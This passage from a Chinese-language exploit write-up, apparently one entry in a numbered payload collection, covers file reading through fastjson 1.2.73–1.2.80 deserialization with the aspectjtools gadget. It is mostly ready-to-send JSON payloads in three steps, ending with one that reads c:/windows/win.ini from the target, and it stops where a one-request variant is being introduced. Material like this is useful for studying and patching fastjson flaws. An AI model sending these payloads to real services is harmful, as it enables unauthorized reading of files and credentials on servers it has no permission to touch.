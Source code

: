 ## 四、文件读取

## 4.1 fastjson [1.2.73<=version<=1.2.80]

### 4.1.1 aspectjtools

#### 4.1.1.1 直接回显法

`payload37`（组合拳）：  
可以分三次打：

```plain
{
    "@type":"java.lang.Exception",
    "@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException"
}
```

```plain
{"@type":"java.lang.Class","val":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{ "@type":"java.lang.String""@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException","newAnnotationProcessorUnits":[{}]}}}
```

```plain
{
    "username":{
        "@type":"org.aspectj.org.eclipse.jdt.internal.compiler.env.ICompilationUnit",
        "@type":"org.aspectj.org.eclipse.jdt.internal.core.BasicCompilationUnit",
        "fileName":"c:/windows/win.ini"
    },
    "password":"admin"
}
```

[![](assets/1706254407-59996bd40ce7c4ecde72acd93186e23d.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20240125203208-c16c5918-bb7d-1.jpeg)  
也可以直接利用`JSON.parse`可以解析`[]`的特性直接一次打：
